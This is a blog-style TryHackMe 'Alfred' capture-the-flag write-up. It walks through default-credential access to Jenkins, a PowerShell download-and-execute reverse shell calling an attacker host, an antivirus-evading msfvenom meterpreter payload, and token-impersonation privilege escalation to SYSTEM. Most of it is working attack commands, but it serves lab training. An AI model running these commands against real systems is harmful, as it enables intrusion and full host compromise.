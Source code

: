 ```yaml
---
layout: post
title: TryHackMe Alfred
author: Edwards
date: 2020-10-17
categories: [CTF, TryHackMe]
tags: [Web, Windows, Tokens, Jenkins] 
math: true
---
```


# Alfred 

In this box you will learn :
- Dig Infos from a web page. 
- Use remote python basic server to upload file
- Use a powershell command to upload a file on a remote machine. 
- Log as admin:admin ;) 
- Privilege escalation with token impersonation
 

### Section 1 : Recon 

Let's kick it with a Nmap. 

![image](/assets/img/Alfred/nmap.png)

We can see that we have 2 http ports open. 
One on the port 80 and the other on port 8080.

Let's check them both.

On the first website we just have an Hearthbreaking news... Bruce Wayne is dead !

![image](/assets/img/Alfred/wayne.png)

I gathered no useful informations here, even when I inspected the image. 

On the second website, we have a login page to connect to a jenkins server.

_If you don't know what Jenkins is :_ 
- [jenkins](https://www.jenkins.io/)

![image](/assets/img/Alfred/login.png)

I tried with default jenkins credentials and with the famous admin:admin (which sadly worked).
We are into the admin panel now ! 

![image](/assets/img/Alfred/panel.png)

The next task is to connect to the machin with a reverse shell with the help of a powershell command.

We can see that we have a job avaible on the main page, click on it and go to the url: 

```text
http://<machine_ip>:8080/job/project
```

We have a thing called "build" that we can run.

![image](/assets/img/Alfred/build.png)

This build execute a lot of different actions, the one that is intersting is the one that runs a powershell command that will be executed on the remote machine.

We can take advantage of this by uploading a file on the machine.

Go to the configuration page, scroll down to the Build part and you will see a windows where we can enter the command that we want.

![image](/assets/img/Alfred/run.png)

I used this powershell script to upload a remote shell on the machine. 
```bash
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.15.91:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.15.91 -Port 5555
```

Click save and prepare the file, a python server and a netcat listener. 

First, go to the github page to copy the command to a file called "Invoke-PowerShellTcp.ps1"

- [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

You can see that I saved it in my directory prepared for the box.

![image](/assets/img/Alfred/save.png)

In the same directory, launch your python server so the machine can download the file and execute it.
```bash 
python3 -m http.server
```

![image](/assets/img/Alfred/python.png)
  
Last thing to setup, is a netcat listener on port 5555.
```bash
nc -nlvp 5555
```

![image](/assets/img/Alfred/netcat.png)

Now go back to the webpage and click on "Build now".

![image](/assets/img/Alfred/buildnow.png)

You can see on the terminal where the python server is running that the file got downloaded.
And on the netcat terminal, you will be in (normally).

![image](/assets/img/Alfred/sucess.png)

You will be connected as bruce, go to his folder to find the user.txt

![image](/assets/img/Alfred/user.png)

### Section 2 : Switching Shell with metasploit

In this section, we are gonna connect to the machine with a msfpayload and metasploit.
Metasploit will just be there to create a listener and get connected with a meterpreter session. 

First, let's create our payload with msfvenom. 
```bash 
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai EXITFUNC=thread LHOST=<your_ip> LPORT=<your_port> -f exe -o <name_of_the_file.exe>
```
![image](/assets/img/Alfred/msfvenom.png)

_The payload is encoded as x86-64 to evade anti-virus products, so the anti virus will not recognise the payload._  

Next, launch again a python http server.
```bash 
python3 -m http.server
```
![image](/assets/img/Alfred/python.png)
And now, we are gonna launch msfconsole to set up a multi/handler.
- LHOST is your IP. 
- LPORT is the same port that you set for the msfvenom payload. 

![image](/assets/img/Alfred/setmsf.png)

Run it and we will be back on the web page to execute our payload.

Go back to the same configuation page, to enter the following powershell command :
```bash
powershell "(New-Object Net.WebClient).DownloadFile('http://10.11.15.91:8000/reverse_tcp.exe,'reverse_tcp.exe')"
```

![image](/assets/img/Alfred/buildpower1.png)

We just uploaded the file on the machine. 

Now go back to the build and set an other command to run the program inside the machine. 
```bash
.\reverse_tcp.exe 
```

![image](/assets/img/Alfred/execute.png)

Normally on your terminal where metasploit is running, you will have a meterpreter shell up.

![image](/assets/img/Alfred/setmsf.png)


### Section 3 : Priv esc.

In this section we will take advantage of token impersonation to gain system access

Ressources to understand token impersonation : 

- [Offensive-Security](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)
- [Exploit-DB](https://www.exploit-db.com/papers/42556)

View all the privileges with the command :
```bash
whoami /priv 
```

![image](/assets/img/Alfred/whoami.png)

With this command you can see the privileges and which one are enabled for you session. 
THe one that are intersting are the "SeDebugPrivilege" and "SeImpersonatePrivilege" which are enabled for us.
The incognito module will help use to exploit this vulnerability.

First, let's load the module from our meterpreter session.
```bash
load incognito
```

![image](/assets/img/Alfred/loadinco.png)

Next, we are gonna list the avaible tokens inside the system.
```bash 
 list_token -g.
``` 

![image](/assets/img/Alfred/listoken.png)

We can see that the BUILTIN/Administrators token is available.

Use the command : 
```bash 
impersonate_token BUILTIN/Administrators" 
```
To impersonate the Administrators token.

Run the "getuid" command to see as which user your session is running.
```bash 
getuid
```

Even if right now we a higher privileged token we may not have the permissions of a privileged user.
We need to migreate to a process with correct permissions. 
The safest one is the services.exe process.

Use the command :
```bash
ps
``` 
So we will have an overview of all processes and find the PID of the services.exe process.

![image](/assets/img/Alfred/service.png)

Then migrate to the services.exe with : 
```bash 
migrate <PID-OF-PROCESS>
```
![image](/assets/img/Alfred/migrate.png)

Finally Navigate to the Admin desktop to find the root.txt.

![image](/assets/img/Alfred/root.png)


